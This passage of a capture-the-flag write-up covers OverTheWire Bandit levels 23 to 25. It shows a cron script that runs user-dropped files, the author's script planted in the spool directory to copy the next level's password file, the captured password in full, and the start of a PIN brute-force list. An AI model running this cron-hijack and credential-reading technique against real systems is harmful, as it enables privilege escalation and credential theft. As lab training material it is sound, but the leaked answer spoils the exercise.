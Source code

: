 ```
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
```
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i

        fi
        rm -f ./$i
    fi
done
```
```
bandit23@bandit:~$ mkdir /tmp/meow
bandit23@bandit:~$ cd /tmp/meow
```
```
bandit23@bandit:/tmp/meow$ nano script.sh
```
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/meow/password
```
```
bandit23@bandit:/tmp/meow$ chmod 777 -R /tmp/meow
```
```
bandit23@bandit:/tmp/meow$ cp script.sh /var/spool/bandit24
```
```
bandit23@bandit:/tmp/meow$ ls -l
total 4
-rwxrwxrwx 1 bandit23 bandit23 63 Nov  1 16:28 script.sh
bandit23@bandit:/tmp/meow$ ls -l
total 8
-rw-r--r-- 1 bandit24 bandit24 33 Nov  1 16:30 password
-rwxrwxrwx 1 bandit23 bandit23 63 Nov  1 16:28 script.sh
bandit23@bandit:/tmp/meow$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
## Level 24 - 25 (shell script brute-forcing)
```
bandit24@bandit:/tmp/meow$ nano script.sh
```
```
#!/bin/bash
for i in {0000..9999}
do
    echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> passwordlist.txt
done
```